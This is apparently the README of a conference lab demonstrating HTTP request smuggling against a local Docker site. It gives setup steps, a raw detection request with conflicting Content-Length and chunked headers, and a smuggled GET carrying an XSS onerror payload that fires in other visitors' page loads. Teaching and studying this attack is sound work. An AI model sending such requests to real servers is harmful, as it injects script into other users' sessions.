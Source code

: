 # Request Smuggling Demonstration

The following code was use to demonstrate HTTP Request Smuggling at NorthSec.


## How to setup

Define the following hostname in `/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts`.
```
127.0.0.1 simplewebsite.gosec.co
```

Docker and docker-compose are required.
```
docker-compose up
```

### Testing

Open `http://simplewebsite.gosec.co` in a browser to confirm that everything is running.


HRS detection:

The following request need to repeated ~10 times until you get `405 Not Allowed` (Method not allowed)
```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

G
```


Injecting an HTTP request in the proxy pipeline.
```
POST / HTTP/1.1
Host: simplewebsite.gosec.co
Content-Length: 79
Transfer-Encoding: chunked

0

GET /contact.php?test=123"><img/src="xx"onerror="alert(1)"> HTTP/1.1
Foo:
```

Once this is sent. Refresh the home page or any page on the website until it is placed after the previous malicious request.
You should see the XSS trigger.

